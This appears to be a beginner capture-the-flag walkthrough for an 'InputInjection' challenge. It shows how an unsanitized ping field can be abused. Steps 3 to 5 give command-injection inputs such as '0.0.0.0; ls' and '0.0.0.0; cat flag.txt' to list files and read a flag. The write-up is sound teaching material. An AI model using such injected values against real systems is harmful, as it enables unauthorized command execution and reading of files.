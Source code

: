 # InputInjection | Difficulty: Easy

## Requirements:

- Basic knowledge of Linux commands e.g. ping, ls, cat
- Basic knowledge of how input is handled (poorly) for Web Development

---

## Steps:
1. Try pinging `0.0.0.0` and see what is displayed.

    ![Input](Guide-Media/chrome_FQhEpziSCj.png)

    ![Output](Guide-Media/chrome_0h0NlOPlnQ.png)

2. Realize how the input is being used.

    ```
    # Psuedo code
    input = Input()

    # In some terminal enviroment
    $ ping input
    ```

3. Exploit the unsanitized input.

    ```
    # Psuedo code
    $ ping input

    # We can end the ip command and use our own commands after that

    input = 0.0.0.0; ls 

    $ ping input --> ping 0.0.0.0; ls
    ```

    `ls` is a linux command to  list directories. It will list all contents of the directory.

4. Enter `0.0.0.0; ls` and see what is displayed.

    ![Output with ls](Guide-Media/chrome_EVYcYefjCb.png)

5. Use `cat` to view the contents of the flag.txt file.

    Enter `0.0.0.0; cat flag.txt` and view what is displayed.

    ![Output with cat](Guide-Media/chrome_jKKjkF1wLE.png)

    `cat` is a linux command to print the contents of a file onto the standard output stream.